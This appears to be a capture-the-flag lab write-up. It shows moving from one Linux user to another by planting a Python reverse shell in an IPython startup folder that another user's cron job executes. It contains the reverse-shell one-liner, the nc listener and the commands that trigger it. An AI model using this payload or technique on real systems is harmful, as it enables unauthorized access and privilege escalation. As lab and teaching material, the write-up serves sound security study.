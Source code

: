 
## Todos

- [x] `developer` group
	- [x] `/opt/scripts_review/`
	- [x] Figure out how to get code execution via ipython

## `developer` Group

`james_mason` is a member of the non-standard group `developer`.

```bash
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```

`/opt/scripts_review` is a directory that members of the `developer` group and `root` have full control over.

```bash
james_mason@shared:~$ find / -group developer 2>/dev/null
/opt/scripts_review
```

```bash
james_mason@shared:~$ ls -la /opt/scripts_review/
total 8
drwxrwx--- 2 root developer 4096 Jul 14 13:46 .
drwxr-xr-x 3 root root      4096 Jul 14 13:46 ..
```

According to [pspy](https://github.com/DominicBreuker/pspy), `dan_smith` is running a cron job that regularly changes directory into `/opt/scripts_review/` and executes `/usr/bin/ipython`.

```bash
...
2022/11/17 16:07:01 CMD: UID=1001 PID=4491   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
...
```

```bash
james_mason@shared:~$ cat /etc/passwd | grep 1001
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
```

According to [this GitHub security advisory](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x), certain versions of `IPython` contain an arbitrary code execution vulnerability that stems from `IPython` executing untrusted files in its current working directory.

Start a reverse shell listener.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
```

Grab the `Python #1` reverse shell from [revshells](https://www.revshells.com/). Save it to `/home/james_mason/tgihf.py`.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

Create an `IPython` profile with a startup folder in `/opt/scripts_review/` and copy `/home/james_mason/tgihf.py` to that startup folder.

```bash
cd /opt/scripts_review/
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
cp /home/james_mason/tgihf.py /opt/scripts_review/profile_default/startup/
```

```bash
james_mason@shared:~$ cd /opt/scripts_review/
james_mason@shared:/opt/scripts_review$ mkdir -m 777 /opt/scripts_review/profile_default
james_mason@shared:/opt/scripts_review$ mkdir -m 777 /opt/scripts_review/profile_default/startup
james_mason@shared:/opt/scripts_review$ cp /home/james_mason/tgihf.py /opt/scripts_review/profile_default/startup/
```

Wait a bit and receive the reverse shell as `dan_smith`.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.40] from (UNKNOWN) [10.129.41.137] 37718
dan_smith@shared:/opt/scripts_review$ id
id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```

